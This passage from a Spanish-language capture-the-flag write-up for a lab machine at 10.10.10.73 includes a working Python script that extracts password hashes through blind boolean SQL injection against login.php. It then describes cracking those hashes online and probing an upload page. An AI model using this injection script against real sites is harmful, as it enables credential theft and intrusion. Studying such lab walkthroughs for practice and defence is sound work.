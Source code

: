 # Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://10.10.10.73/login.php"
s = r'abcdef0123456789'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p2 = log.progress("Password")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    password = ""

    for position in range(1, 40):
        for character in s:
            p1.status("Probando caracter %c en la posiciÃ³n %d" % (character, position))
            post_data = {
                'username': "chris' and substring(password,%d,1)='%c'-- -" % (position, character),
                'password': 'admin'
            }

            r = requests.post(login_url, data=post_data)

            if "Wrong identification" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeRequest()
```

Cambiando el nombre de usuario, podemos buscar la contraseña del usuario chris y admin. una vez lanzado el script, podemos recoger 
la contraseña md5 de cada uno de estos usuarios.

### Crackeamos las contraseñas con crackstation {-}

Abrimos la web de [crackstation](https://crackstation.net/) y colamos los hashes. Encontramos la contraseña del usuario 
```bash
 chris 
```
.

### Loggearse como el usuario admin {-}

Aqui es donde viene toda la parte mas interesante de la maquina. Si nos connectamos como el usuario **chris** vemos que habla de juggling pero poco mas.
Si intentamos connectar a la url 
```bash
 http://10.10.10.73/upload.php 
```
 todavia hay una redireccion. Como habla de juggling, pensamos en seguida en una vulnerabilidad
de typo **type juggling** pero tampoco es esto. Esta via se parece mas a un rabbit hole que otra cosa.
